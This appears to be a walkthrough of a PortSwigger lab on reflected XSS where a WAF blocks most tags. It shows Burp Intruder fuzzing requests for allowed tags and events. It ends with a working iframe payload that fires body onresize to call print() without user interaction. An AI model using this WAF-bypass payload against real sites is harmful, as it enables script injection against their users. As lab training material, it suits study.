




# Reflected XSS into HTML context with most tags and attributes blocked

```
❓

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the `print()` function.
```

```
⚠️

<p>
Your solution must not require any user interaction. Manually causing `print()` to be called in your own browser will not solve the lab. 
</p>
```

On the front store page there is a search bar that can be used to inject our payload.



After trying a few tags such as `<script>`, ``, and others we get the error message *"Tag is not allowed”**. *This error message occurs because a WAF (Web Application Firewall) is put in place to protect against common XSS vectors. We can use Intruder to get an idea of what tags are not being blocked by the WAF, I will select “script” as the payload and load a list of tags from PortSwiggers XSS [Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

```xml
GET /?search=<§script§> HTTP/2
Host: 0a26004903c9235d8083fdea00fa003b.web-security-academy.net
Cookie: session=xio4TFrckseXKrvyEp3HX379F8h8mBJE
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a26004903c9235d8083fdea00fa003b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```



We get a 200 response on two tags `body` and `custom tags`, let’s go with the body tag and see what event’s we can use to trigger the `print()`. Let’s setup the payload to add an event, and on said event the print function will be triggered.

```xml
GET /?search<body §event§=print()> HTTP/2
Host: 0a8c00f904f8838981dd706a00390014.web-security-academy.net
Cookie: session=xio4TFrckseXKrvyEp3HX379F8h8mBJE
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a26004903c9235d8083fdea00fa003b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```



Once the fuzz is complete, we are given a list of events that returned a 200 response. There will now be body tag with one of the selected events that trigger the print function in the response HTML now.



Ideally we want to select an event that can be programmatically triggered using JavaScript without any user interaction. For example, `onresize`, we can deliver our payload in an [iframe](https://www.w3schools.com/tags/tag_iframe.ASP) and resize the iframe which will trigger the `onresize` event thus trigger the `print()` function. Let’s craft the iframe to perform this action.

```xml
<iframe src="https://0abb00df03bd94b480fc3a19006300cd.web-security-academy.net/?search=<body onresize="print()">" onload=this.style.width='100em'></iframe>
```

```xml
<iframe src="https://0abb00df03bd94b480fc3a19006300cd.web-security-academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E" onload=this.style.width='100em'></iframe>
```

Once we’ve crafted our iframe payload we can then head over to the exploit server then click `Store` and `Deliver exploit to victim` to complete the lab.
